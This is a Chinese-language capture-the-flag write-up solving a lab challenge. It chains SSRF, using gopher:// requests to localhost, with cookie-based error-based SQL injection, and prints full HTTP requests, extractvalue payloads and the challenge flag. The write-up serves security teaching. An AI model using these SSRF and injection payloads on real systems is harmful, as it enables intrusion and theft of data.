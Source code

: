 # Very_Easy_Sql

> SSRF+SQL注入

## Gopher

> gopher协议是一个在http协议诞生前用来访问Internet资源的协议,可以理解为http协议的前身或简化版,虽然很古老但现在很多库还支持gopher协议而且gopher协议功能很强大.它可以实现多个数据包整合发送,然后gopher服务器将多个数据包捆绑着发送到客户端,这就是它的菜单响应.协议的curl 命令就能操作mysql数据库或完成对redis的攻击等等.gopher协议使用tcp可靠连接.

## 思路分析

> 打开网站后首页后,在首页中直接burp拦截数据包去爆破账号密码没发现什么东西,sqlmap也没跑出来.在源码中找到了use.php,直接访问发现是一个输入url地址然后后端去请求的功能,经测试,不能输入file、http://等字符,dnslog方式可以收到请求但是不能执行命令,外带不出结果.说明此处还是存在ssrf漏洞的,想到在首页直接登陆会提示只能内部访问,说明请求的ip只能是内部的,尝试用gopher协议构造http请求报文去请求数据

> gopher://127.0.0.1:80/_POST%20%2findex.php%20HTTP%2f1.1%2
> 50d%250aHost%3A%20localhost%3A80%250d%250aCookie%3A%20PHPSESSID%3D1f546328759632456215236845122365%3B%250d%250aConnection%3A%20close%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250aContent-Length%3A%2024%250d%250a%250d%250auname%3Dadmin%2526passwd%3D123456

> 发现返回的数据有响应,对传递的数据中账号密码爆破,发现账号密码为admin/admin.这是返回了一个base64编码的cookie,猜测cookie存在注入,尝试用this_is_your_cookie=YWRtaW4nICM=(admin' #)去发送数据

```
GET /use.php?url=gopher://127.0.0.1:80/_POST%20%2findex.php%20HTTP%2f1.1%250d%250aHost%3A%20localhost%3A80%250d%250aCookie%3A%20this_is_your_cookie=YWRtaW4nICM=%3B%250d%250aConnection%3A%20close%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250aContent-Length%3A%2024%250d%250a%250d%250auname%3Dadmin%2526passwd%3Dadmin HTTP/1.1
Host: 61.147.171.105:51577
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:51577/use.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
Cookie: PHPSESSID=lb8pf8pkg1drfe7il17dkrh374
Connection: close
```

> 果然报错了,看来就是这个存在注入了,可以用报错注入来获取flag,也可以用延时注入编写py脚本去跑,得到flag.

## payload

```
GET /use.php?url=gopher://127.0.0.1:80/_POST%20%2findex.php%20HTTP%2f1.1%250d%250aHost%3A%20localhost%3A80%250d%250aCookie%3A%20Jykgb3IgMT0xICM=%3B%250d%250aConnection%3A%20close%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250aContent-Length%3A%2024%250d%250a%250d%250auname%3Dadmin%2526passwd%3Dadmin HTTP/1.1
Host: 61.147.171.105:51577
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:51577/use.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
Cookie: PHPSESSID=lb8pf8pkg1drfe7il17dkrh374
Connection: close
```

## payload

> admin') and extractvalue(1, concat(0x7e, (select @@version),0x7e)) #
> admin') and extractvalue(1, concat(0x7e, (select database()),0x7e)) #
> admin') and extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='security'),0x7e)) #
> admin') and extractvalue(1, concat(0x7e, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='flag'),0x7e)) #
> admin') and extractvalue(1, concat(0x7e, (SELECT flag from flag),0x7e)) #
> admin') and extractvalue(1, concat(0x7e, substr((SELECT flag from flag),30,32),0x7e)) #

## flag

> cyberpeace{469235bbb30fbe6ee35ec14ab2fa52dd}
